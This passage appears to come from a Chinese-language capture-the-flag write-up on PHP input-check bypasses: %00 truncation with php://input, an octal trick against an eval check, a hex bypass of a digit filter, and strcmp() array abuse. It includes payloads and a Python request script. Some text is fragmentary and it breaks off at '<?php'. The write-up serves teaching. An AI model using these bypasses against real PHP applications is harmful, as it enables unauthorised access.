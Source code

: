5. data应该以post方式传入
6. id==0但是如果直接给id赋值为0则在一开始就会退出，故此时可给id一个字母绕过
7. 看到substr就应该想到用%00截断。eregi('111','1114')满足而strlen()不会发生截断。
综上，构造payload如下：
```
?id=a&a=php://input&b=%0011111
POST:
1112 is a nice lab!
```
> 八进制
```php
$sss=$_GET['sss'];
if(strlen($sss)==666){
    if(!preg_match("/[^0-6]/",$sss)){
        eval('$sss='.$sss.';');
        if($sss!=='0x666'){
            if($sss=='0x666'){
                echo $flag;
            }
        }
    }
}
```
分析题可得：
1. sss长度必须为666
2. sss只能由0-6组成
3. sss=='0x666'&&sss!=='0x666'
由第二个条件可想到用八进制，0x666==00000...3146。可以编写以下脚本：
```py
import requests
url = 'http://IP:PORT/challenge19.php?sss='+'0'*662+'3146'
html = requests.get(url)
print(html.content)
```
- ord()
ord — 转换字符串第一个字节为 0-255 之间的值,是chr()的互补函数
```php
function noother_says_correct($number)
{
    $one = ord('1');
    $nine = ord('9');
    # Check all the input characters!
    for ($i = 0; $i < strlen($number); $i++)
    {
        # Disallow all the digits!
        $digit = ord($number{$i});
        if ( ($digit >= $one) && ($digit <= $nine) )
        {
            # Aha, digit not allowed!
            return false;
        }
    }
    # Allow the magic number ...
    return $number == "3735929054";
}
```
我们可以看到题目要求我们传入的每一位不允许是1到9的数字。而。
```
>>> hex(3735929054)
'0xdeadc0de'
```
正好绕过检测
- strcmp()
文档中给出：int strcmp ( string $str1 , string $str2 )，如果一个参数是数组，将产生NULL结果，若对结果进行strcmp()==0判断，将通过
```php
<?php
```